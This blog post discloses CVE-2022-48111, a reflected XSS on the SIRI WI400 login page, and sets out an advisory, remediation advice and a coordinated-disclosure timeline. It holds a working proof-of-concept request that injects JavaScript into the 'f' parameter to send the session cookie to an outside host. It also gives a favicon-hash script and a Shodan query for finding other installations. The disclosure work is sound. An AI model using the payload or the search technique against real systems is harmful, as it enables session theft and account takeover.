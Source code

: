 ```yaml
---
title: CVE-2022-48111
layout: post
post-image: /assets/images/wi400/0.wi400_cover.jpg
description: This post makes public a vulnerability I happened to discover during one of my activities as a Penetration Tester.
tags:
  - how to
  - cybersecurity
  - vulnerability
  - CVE-2022-48111
  - XSS
  - cookie exfiltration
---
```


# SIRI WI400: XSS on Login Page – CVE-2022-48111

WI400 is a software developed by SIRI that acts as a web interface for the IBM Power Systems (AS/400). During a penetration test activity, a reflected cross-site scripting (XSS) vulnerability was found on the login page. This allowed to craft URLs with arbitrary JavaScript code injected that would execute once the link was visited.

![SIRI WI400 Login Page](/assets/images/wi400/1.wi400_login_page.png)

## Advisory – CVE-2022-48111

A cross-site scripting (XSS) vulnerability in the check_login function of S.I.R.I. s.r.l WI400 between v.8 and v.11 included allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the “f” parameter.

## Technical Details

During a black-box penetration test activity carried out on the WI400 v9.5 emerged the possibility to reflect some parameters in the server response. By further investigating the matter, it was found out that the login page was vulnerable to reflected cross-site scripting attacks. Once confirmed, it was possible to exfiltrate the session cookie. In a likely scenario an attacker could, for example, steal it by means such as a phishing attack and log into the system impersonating the victim.

As a proof of concept, rather than popping up an alert printing the cookie, the JavaScript payload was crafted as a XMLHttpRequest that would send the token to our server.

The following is a POC snippet of the request with the payload used to verify and confirm the above mentioned vulnerability.

```
GET /WI400/index.php?t=CHECK_LOGIN&f=";const+req+%3d+new+XMLHttpRequest()%3breq.open("GET",+"https%3a//[REDACTED]/"%2bdocument.cookie)%3breq.send();var+tail="y
HTTP/1.1
Host: [REDACTED]
Cookie: PHPSESSID=o7p2j3i1a14sb1fp8e1s1hhuv7
[…]
```

In the server response it can be seen that the payload is returned without proper sanitization so the JavaScript code executes correctly once the URL is visited.

```javascript
HTTP/1.1 200 200
[…]

<!DOCTYPE html>
[…]
    var FOCUSED_FIELD = "";
    var FOCUSED_TAB ="";
    var REFRESH_FOCUS = false;
    var __WI400_HMAC = "";
    var __WI400_SESSION = "";
    var CURRENT_ACTION = "CHECK_LOGIN";
    var CURRENT_FORM = "";const req = new XMLHttpRequest();req.open("GET", "https://[REDACTED]/"+document.cookie);req.send();var tail="y";
[…]
```

In fact, as one can see in the picture below, the code executes on the target and the user session cookie is successfully exfiltrated to the “attacker” server.
![Session cookie exfiltrated to attacker server](/assets/images/wi400/2.wi400_stolen_cookie-redacted.png)

In order to exploit the vulnerability **no authentication is necessary**.

To understand if other versions of the software were subsceptible to the same kind of vulnerability, I needed to find other installations of the same.
To do so, I used what is, in my optinion, a pretty nifty trick. I calculated tha favicon hash with this python script:

```python
import mmh3
import requests
import codecs

response = requests.get('https://[REDACTED]/favicon.ico')
favicon = codecs.encode(response.content,"base64")
hash = mmh3.hash(favicon)
print(hash)
```

and then we looked it up on Shodan with the following query:
`http.favicon.hash:[REDACTED]`

After comparing the codebase in the new found installations with the one we I was testing, I was able to confirm that multiple versions of the software were vulnerable to the same XSS. The vendor was promptly notified of the findings.

## Recommendations

If your version of the WI400 software is included between 8 and 11 you can choose one of the following:

- Enable the “safe mode” that can be activated on request by SIRI since v.8
- Update the software to the latest release

## Resolutions from SIRI

> We recommend all our customers to activate the “safe mode”. In future releases the parameter will be enabled by default and cannot be disabled. Contact the help desk at info@siri-informatica.it for further information.

## Disclosure Timeline

- 14/12/2022 – Initial contact with SIRI
- 16/12/2022 – SIRI acknowledges the problem and decides to work with Yarix for a coordinated disclosure
- 02/02/2023 – MITRE assigned CVE-2022-48111 to the vulnerability
- 02/03/2023 – Full disclosure

## Resources & References

- [https://www.wi400.com/](https://www.wi400.com/)
- [CVE-2022-48111](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-48111)
